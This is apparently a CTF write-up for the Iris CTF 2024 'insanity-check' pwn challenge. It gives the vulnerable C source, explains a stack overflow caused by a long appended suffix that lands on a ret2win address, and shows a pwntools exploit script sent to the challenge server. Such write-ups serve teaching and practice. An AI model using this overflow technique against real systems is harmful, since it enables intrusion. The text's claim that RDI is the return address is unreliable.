 ```yaml
---
layout: writeup
category: Iris-CTF-2024
chall_description: N/A
points: 50
solves: 254
tags: pwn buffer-overflow ret2win
date: 2024-12-7
comments: false
---
```


I've tried the brand new michael-ld linker on my hello world program. I'm pretty sure it's super safe now.  
`nc insanity-check.chal.irisc.tf 10003`  
[insanity-check.tar.gz](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Iris-CTF-2024/insanity-check.tar.gz)  

---

We're given an ELF binary and a C source file. Here's `vuln.c`:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```

Firstly, we can clearly recognize the use of `fgets()`, which is known to be safe from buffer overflow. Thus, we can't directly overflow the `name` variable, as it is allocated 64 bytes and fgets ensures the program only reads 64 bytes.  

However, something else seems to be happening. We are also adding some other strings onto the name to create a message, and printing it back to the user. There's no format string vulnerability, as `%s` is used for the printf call. But, that `suffix` variable seems pretty long... and we're only allocated 128 bytes for the `message` variable. Can we cause a buffer overflow there?  

I sent 64 bytes of input to the program, and sure enough, we got a segfault. There's our vulnerability!  

But, there's a slight problem. We can't directly modify RDI (i.e. the return address) with our input, as it's not long enough. But there's a very suspicious string at the end of `suffix`... why are there 4 null bytes?  

At this point, I realized the trick. Maybe the end of the suffix very conveniently turned out to be the address of the win function?  

Running `file vuln` (since I forgot to do it before), I realized that this was an x86-64 ELF, which means the 4 null bytes at the end made sense. Then, with pwntools, I checked the win address with `print(elf.symbols['win'])`, which returned `0x6d6f632e`. That looks suspiciously like ASCII. A quick hex to ASCII conversion shows that it definitely is!  

Hence, we just have to send in the correct offset of bytes to get the win address to align correctly. Simple guess and check should work, as with pwndbg's gdb, it'll show us what part of the string is currently filling the win address. Thus, here's the final exploit after guess and check:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./vuln")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./vuln')
# gdb.attach(p)
p = remote('insanity-check.chal.irisc.tf', 10003)

p.sendline(
    b'A'*56
)

p.interactive()
```

And here's the flag!  

    irisctf{c0nv3n13nt_symb0l_pl4cem3nt}